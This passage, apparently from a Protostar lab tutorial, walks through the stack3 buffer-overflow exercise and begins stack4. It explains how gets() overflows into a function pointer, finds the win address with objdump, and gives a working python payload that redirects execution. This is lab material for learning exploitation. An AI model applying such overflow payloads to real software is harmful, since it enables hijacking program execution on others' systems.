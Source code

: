 ```c
    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```

In the above code, we can clearly understand that the vulnerability occurs when the `gets()` function is used. We will examine what the stack looks like in this case:

```
[buffer 64][fp][saved ebp][saved eip]
```

What we see here is that `fp` in this case is a pointer of a function and the program will jump to what `fp` contains. So what we need to move on is just make sure we have the address of `win` in the `fp` variable.

```bash
cd /opt/protostar/bin
objdump -d stack3 | grep "win"
```

Using the above command we can find that `win` is at address "0x08048424". So here is our final payload:

```bash
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
```

**Output**

![image-14](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-14.png "Image-14")

* * *

###### FIFTH EXERCISE "STACK FOUR"

In this new exercise we will see together how a buffer overflow can change code execution even when there's no variable to overwrite. First let's see the source code of our challenge:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

